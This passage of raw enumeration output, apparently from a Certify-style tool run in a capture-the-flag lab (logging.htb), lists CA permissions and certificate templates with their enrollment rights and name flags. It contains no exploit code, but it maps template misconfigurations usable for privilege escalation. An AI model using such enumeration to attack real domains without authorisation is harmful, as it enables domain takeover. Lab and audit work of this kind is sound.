      Owner: BUILTIN\Administrators             S-1-5-32-544

      Access Rights                                     Principal
      Allow  Enroll                                     NT AUTHORITY\Authenticated Users   S-1-5-11
      Allow  ManageCA, ManageCertificates               BUILTIN\Administrators             S-1-5-32-544
      Allow  ManageCA, ManageCertificates               logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
      Allow  ManageCA, ManageCertificates               logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
    Enrollment Agent Restrictions : None

[*] Certificate templates found using the current filter parameters:

    Template Name                         : User
    Enabled                               : True
    Publishing CAs                        : DC01.logging.htb\logging-DC01-CA
    Schema Version                        : 1
    Validity Period                       : 1 year
    Renewal Period                        : 6 weeks
    Certificate Name Flag                 : SUBJECT_ALT_REQUIRE_UPN, SUBJECT_ALT_REQUIRE_EMAIL, SUBJECT_REQUIRE_EMAIL, SUBJECT_REQUIRE_DIRECTORY_PATH
    Enrollment Flag                       : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS, AUTO_ENROLLMENT
    Manager Approval Required             : False
    Authorized Signatures Required        : 0
    Extended Key Usage                    : Client Authentication, Encrypting File System, Secure Email
    Certificate Application Policies      : <null>
    Permissions
      Enrollment Permissions
        Enrollment Rights           : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Domain Users               S-1-5-21-4020823815-2796529489-1682170552-513
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
      Object Control Permissions
        Owner                       : logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Owner                 : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Dacl                  : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Property              : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519

    Template Name                         : UserSignature
    Enabled                               : False
    Schema Version                        : 1
    Validity Period                       : 1 year
    Renewal Period                        : 6 weeks
    Certificate Name Flag                 : SUBJECT_ALT_REQUIRE_UPN, SUBJECT_ALT_REQUIRE_EMAIL, SUBJECT_REQUIRE_EMAIL, SUBJECT_REQUIRE_DIRECTORY_PATH
    Enrollment Flag                       : AUTO_ENROLLMENT
    Manager Approval Required             : False
    Authorized Signatures Required        : 0
    Extended Key Usage                    : Client Authentication, Secure Email
    Certificate Application Policies      : <null>
    Permissions
      Enrollment Permissions
        Enrollment Rights           : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Domain Users               S-1-5-21-4020823815-2796529489-1682170552-513
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
      Object Control Permissions
        Owner                       : logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Owner                 : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Dacl                  : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Property              : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519

    Template Name                         : SmartcardUser
    Enabled                               : False
    Schema Version                        : 1
    Validity Period                       : 1 year
    Renewal Period                        : 6 weeks
    Certificate Name Flag                 : SUBJECT_ALT_REQUIRE_UPN, SUBJECT_ALT_REQUIRE_EMAIL, SUBJECT_REQUIRE_EMAIL, SUBJECT_REQUIRE_DIRECTORY_PATH
    Enrollment Flag                       : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS
    Manager Approval Required             : False
    Authorized Signatures Required        : 0
    Extended Key Usage                    : Client Authentication, Secure Email, Smart Card Logon
    Certificate Application Policies      : <null>
    Permissions
      Enrollment Permissions
        Enrollment Rights           : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
      Object Control Permissions
        Owner                       : logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Owner                 : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Dacl                  : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Property              : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519

    Template Name                         : ClientAuth
    Enabled                               : False
    Schema Version                        : 1
    Validity Period                       : 1 year
    Renewal Period                        : 6 weeks
    Certificate Name Flag                 : SUBJECT_ALT_REQUIRE_UPN, SUBJECT_REQUIRE_DIRECTORY_PATH
    Enrollment Flag                       : AUTO_ENROLLMENT
    Manager Approval Required             : False
    Authorized Signatures Required        : 0
    Extended Key Usage                    : Client Authentication
    Certificate Application Policies      : <null>
    Permissions
      Enrollment Permissions
        Enrollment Rights           : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Domain Users               S-1-5-21-4020823815-2796529489-1682170552-513
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
      Object Control Permissions
        Owner                       : logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Owner                 : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Dacl                  : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Property              : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519

    Template Name                         : SmartcardLogon
    Enabled                               : False
    Schema Version                        : 1
    Validity Period                       : 1 year
    Renewal Period                        : 6 weeks
    Certificate Name Flag                 : SUBJECT_ALT_REQUIRE_UPN, SUBJECT_REQUIRE_DIRECTORY_PATH
    Enrollment Flag                       : NONE
    Manager Approval Required             : False
    Authorized Signatures Required        : 0
    Extended Key Usage                    : Client Authentication, Smart Card Logon
    Certificate Application Policies      : <null>
    Permissions
      Enrollment Permissions
        Enrollment Rights           : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
      Object Control Permissions
        Owner                       : logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Owner                 : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Dacl                  : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Property              : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519

    Template Name                         : EFS
    Enabled                               : True
    Publishing CAs                        : DC01.logging.htb\logging-DC01-CA
    Schema Version                        : 1
    Validity Period                       : 1 year
    Renewal Period                        : 6 weeks
    Certificate Name Flag                 : SUBJECT_ALT_REQUIRE_UPN, SUBJECT_REQUIRE_DIRECTORY_PATH
    Enrollment Flag                       : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS, AUTO_ENROLLMENT
    Manager Approval Required             : False
    Authorized Signatures Required        : 0
    Extended Key Usage                    : Encrypting File System
    Certificate Application Policies      : <null>
    Permissions
      Enrollment Permissions
        Enrollment Rights           : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Domain Users               S-1-5-21-4020823815-2796529489-1682170552-513
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
      Object Control Permissions
        Owner                       : logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Owner                 : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Dacl                  : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Property              : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519

    Template Name                         : Administrator
    Enabled                               : True
    Publishing CAs                        : DC01.logging.htb\logging-DC01-CA
    Schema Version                        : 1
    Validity Period                       : 1 year
    Renewal Period                        : 6 weeks
    Certificate Name Flag                 : SUBJECT_ALT_REQUIRE_UPN, SUBJECT_ALT_REQUIRE_EMAIL, SUBJECT_REQUIRE_EMAIL, SUBJECT_REQUIRE_DIRECTORY_PATH
    Enrollment Flag                       : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS, AUTO_ENROLLMENT
    Manager Approval Required             : False
    Authorized Signatures Required        : 0
    Extended Key Usage                    : Client Authentication, Encrypting File System, Microsoft Trust List Signing, Secure Email
    Certificate Application Policies      : <null>
    Permissions
      Enrollment Permissions
        Enrollment Rights           : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
      Object Control Permissions
        Owner                       : logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Owner                 : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Dacl                  : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Property              : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519

    Template Name                         : EFSRecovery
    Enabled                               : True
    Publishing CAs                        : DC01.logging.htb\logging-DC01-CA
    Schema Version                        : 1
    Validity Period                       : 5 years
    Renewal Period                        : 6 weeks
    Certificate Name Flag                 : SUBJECT_ALT_REQUIRE_UPN, SUBJECT_REQUIRE_DIRECTORY_PATH
    Enrollment Flag                       : INCLUDE_SYMMETRIC_ALGORITHMS, AUTO_ENROLLMENT
    Manager Approval Required             : False
    Authorized Signatures Required        : 0
    Extended Key Usage                    : File Recovery
    Certificate Application Policies      : <null>
    Permissions
      Enrollment Permissions
        Enrollment Rights           : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
      Object Control Permissions
        Owner                       : logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Owner                 : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Dacl                  : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Property              : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519

    Template Name                         : CodeSigning
    Enabled                               : False
    Schema Version                        : 1
    Validity Period                       : 1 year
    Renewal Period                        : 6 weeks
    Certificate Name Flag                 : SUBJECT_ALT_REQUIRE_UPN, SUBJECT_REQUIRE_DIRECTORY_PATH
    Enrollment Flag                       : AUTO_ENROLLMENT
    Manager Approval Required             : False
    Authorized Signatures Required        : 0
    Extended Key Usage                    : Code Signing
    Certificate Application Policies      : <null>
    Permissions
      Enrollment Permissions
        Enrollment Rights           : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
      Object Control Permissions
        Owner                       : logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Owner                 : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Dacl                  : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Property              : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519

    Template Name                         : CTLSigning
    Enabled                               : False
    Schema Version                        : 1
    Validity Period                       : 1 year
    Renewal Period                        : 6 weeks
    Certificate Name Flag                 : SUBJECT_ALT_REQUIRE_UPN, SUBJECT_REQUIRE_DIRECTORY_PATH
    Enrollment Flag                       : AUTO_ENROLLMENT
    Manager Approval Required             : False
    Authorized Signatures Required        : 0
    Extended Key Usage                    : Microsoft Trust List Signing
    Certificate Application Policies      : <null>
    Permissions
      Enrollment Permissions
        Enrollment Rights           : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
      Object Control Permissions
        Owner                       : logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Owner                 : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Dacl                  : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Property              : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519

    Template Name                         : EnrollmentAgent
    Enabled                               : False
    Schema Version                        : 1
    Validity Period                       : 2 years
    Renewal Period                        : 6 weeks
    Certificate Name Flag                 : SUBJECT_ALT_REQUIRE_UPN, SUBJECT_REQUIRE_DIRECTORY_PATH
    Enrollment Flag                       : AUTO_ENROLLMENT
    Manager Approval Required             : False
    Authorized Signatures Required        : 0
    Extended Key Usage                    : Certificate Request Agent
    Certificate Application Policies      : <null>
    Permissions
      Enrollment Permissions
        Enrollment Rights           : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
      Object Control Permissions
        Owner                       : logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Owner                 : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Dacl                  : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Property              : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519

    Template Name                         : EnrollmentAgentOffline
    Enabled                               : False
    Schema Version                        : 1
    Validity Period                       : 2 years
    Renewal Period                        : 6 weeks
    Certificate Name Flag                 : ENROLLEE_SUPPLIES_SUBJECT
    Enrollment Flag                       : NONE
    Manager Approval Required             : False
    Authorized Signatures Required        : 0
    Extended Key Usage                    : Certificate Request Agent
    Certificate Application Policies      : <null>
    Permissions
      Enrollment Permissions
        Enrollment Rights           : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
      Object Control Permissions
        Owner                       : logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Owner                 : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Dacl                  : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Property              : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519

    Template Name                         : MachineEnrollmentAgent
    Enabled                               : False
    Schema Version                        : 1
    Validity Period                       : 2 years
    Renewal Period                        : 6 weeks
    Certificate Name Flag                 : SUBJECT_ALT_REQUIRE_DNS, SUBJECT_REQUIRE_DNS_AS_CN
    Enrollment Flag                       : AUTO_ENROLLMENT
    Manager Approval Required             : False
    Authorized Signatures Required        : 0
    Extended Key Usage                    : Certificate Request Agent
    Certificate Application Policies      : <null>
    Permissions
      Enrollment Permissions
        Enrollment Rights           : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
      Object Control Permissions
        Owner                       : logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Owner                 : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Dacl                  : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Property              : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519

    Template Name                         : Machine
    Enabled                               : True
    Publishing CAs                        : DC01.logging.htb\logging-DC01-CA
    Schema Version                        : 1
    Validity Period                       : 1 year
    Renewal Period                        : 6 weeks
    Certificate Name Flag                 : SUBJECT_ALT_REQUIRE_DNS, SUBJECT_REQUIRE_DNS_AS_CN
    Enrollment Flag                       : AUTO_ENROLLMENT
    Manager Approval Required             : False
    Authorized Signatures Required        : 0
    Extended Key Usage                    : Client Authentication, Server Authentication
    Certificate Application Policies      : <null>
    Permissions
      Enrollment Permissions
        Enrollment Rights           : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Domain Computers           S-1-5-21-4020823815-2796529489-1682170552-515
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
      Object Control Permissions
        Owner                       : logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Owner                 : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Dacl                  : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Property              : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519

    Template Name                         : DomainController
    Enabled                               : True
    Publishing CAs                        : DC01.logging.htb\logging-DC01-CA
    Schema Version                        : 1
    Validity Period                       : 1 year
    Renewal Period                        : 6 weeks
    Certificate Name Flag                 : SUBJECT_ALT_REQUIRE_DIRECTORY_GUID, SUBJECT_ALT_REQUIRE_DNS, SUBJECT_REQUIRE_DNS_AS_CN
    Enrollment Flag                       : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS, AUTO_ENROLLMENT
    Manager Approval Required             : False
    Authorized Signatures Required        : 0
    Extended Key Usage                    : Client Authentication, Server Authentication
    Certificate Application Policies      : <null>
    Permissions
      Enrollment Permissions
        Enrollment Rights           : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Domain Controllers         S-1-5-21-4020823815-2796529489-1682170552-516
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
                                      logging\Enterprise Read-only Domain ControllersS-1-5-21-4020823815-2796529489-1682170552-498
                                      NT AUTHORITY\ENTERPRISE DOMAIN CONTROLLERSS-1-5-9
      Object Control Permissions
        Owner                       : logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Owner                 : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Dacl                  : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Property              : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519

    Template Name                         : WebServer
    Enabled                               : True
    Publishing CAs                        : DC01.logging.htb\logging-DC01-CA
    Schema Version                        : 1
    Validity Period                       : 2 years
    Renewal Period                        : 6 weeks
    Certificate Name Flag                 : ENROLLEE_SUPPLIES_SUBJECT
    Enrollment Flag                       : NONE
    Manager Approval Required             : False
    Authorized Signatures Required        : 0
    Extended Key Usage                    : Server Authentication
    Certificate Application Policies      : <null>
    Permissions
      Enrollment Permissions
        Enrollment Rights           : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
      Object Control Permissions
        Owner                       : logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Owner                 : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Dacl                  : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Property              : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519

    Template Name                         : CA
    Enabled                               : False
    Schema Version                        : 1
    Validity Period                       : 5 years
    Renewal Period                        : 6 weeks
    Certificate Name Flag                 : ENROLLEE_SUPPLIES_SUBJECT
    Enrollment Flag                       : NONE
    Manager Approval Required             : False
    Authorized Signatures Required        : 0
    Extended Key Usage                    : <null>
    Certificate Application Policies      : <null>
    Permissions
      Enrollment Permissions
        Enrollment Rights           : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
      Object Control Permissions
        Owner                       : logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Owner                 : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Dacl                  : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Property              : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519

    Template Name                         : SubCA
    Enabled                               : True
    Publishing CAs                        : DC01.logging.htb\logging-DC01-CA
    Schema Version                        : 1
    Validity Period                       : 5 years
    Renewal Period                        : 6 weeks
    Certificate Name Flag                 : ENROLLEE_SUPPLIES_SUBJECT
    Enrollment Flag                       : NONE
    Manager Approval Required             : False
    Authorized Signatures Required        : 0
    Extended Key Usage                    : <null>
    Certificate Application Policies      : <null>
    Permissions
      Enrollment Permissions
        Enrollment Rights           : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
      Object Control Permissions
        Owner                       : logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Owner                 : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Dacl                  : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Property              : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519

    Template Name                         : IPSECIntermediateOnline
    Enabled                               : False
    Schema Version                        : 1
    Validity Period                       : 2 years
    Renewal Period                        : 6 weeks
    Certificate Name Flag                 : SUBJECT_ALT_REQUIRE_DNS, SUBJECT_REQUIRE_DNS_AS_CN
    Enrollment Flag                       : AUTO_ENROLLMENT
    Manager Approval Required             : False
    Authorized Signatures Required        : 0
    Extended Key Usage                    : IP security IKE intermediate
    Certificate Application Policies      : <null>
    Permissions
      Enrollment Permissions
        Enrollment Rights           : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Domain Computers           S-1-5-21-4020823815-2796529489-1682170552-515
                                      logging\Domain Controllers         S-1-5-21-4020823815-2796529489-1682170552-516
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
      Object Control Permissions
        Owner                       : logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Owner                 : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Dacl                  : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Property              : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519

    Template Name                         : IPSECIntermediateOffline
    Enabled                               : False
    Schema Version                        : 1
    Validity Period                       : 2 years
    Renewal Period                        : 6 weeks
    Certificate Name Flag                 : ENROLLEE_SUPPLIES_SUBJECT
    Enrollment Flag                       : NONE
    Manager Approval Required             : False
    Authorized Signatures Required        : 0
    Extended Key Usage                    : IP security IKE intermediate
    Certificate Application Policies      : <null>
    Permissions
      Enrollment Permissions
        Enrollment Rights           : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
      Object Control Permissions
        Owner                       : logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Owner                 : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Dacl                  : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Property              : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519

    Template Name                         : OfflineRouter
    Enabled                               : False
    Schema Version                        : 1
    Validity Period                       : 2 years
    Renewal Period                        : 6 weeks
    Certificate Name Flag                 : ENROLLEE_SUPPLIES_SUBJECT
    Enrollment Flag                       : NONE
    Manager Approval Required             : False
    Authorized Signatures Required        : 0
    Extended Key Usage                    : Client Authentication
    Certificate Application Policies      : <null>
    Permissions
      Enrollment Permissions
        Enrollment Rights           : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
      Object Control Permissions
        Owner                       : logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Owner                 : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Dacl                  : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Property              : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519

    Template Name                         : CEPEncryption
    Enabled                               : False
    Schema Version                        : 1
    Validity Period                       : 2 years
    Renewal Period                        : 6 weeks
    Certificate Name Flag                 : ENROLLEE_SUPPLIES_SUBJECT
    Enrollment Flag                       : NONE
    Manager Approval Required             : False
    Authorized Signatures Required        : 0
    Extended Key Usage                    : Certificate Request Agent
    Certificate Application Policies      : <null>
    Permissions
      Enrollment Permissions
        Enrollment Rights           : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
      Object Control Permissions
        Owner                       : logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Owner                 : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Dacl                  : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519
        Write Property              : logging\Domain Admins              S-1-5-21-4020823815-2796529489-1682170552-512
                                      logging\Enterprise Admins          S-1-5-21-4020823815-2796529489-1682170552-519

    Template Name                         : ExchangeUser
    Enabled                               : False
    Schema Version                        : 1
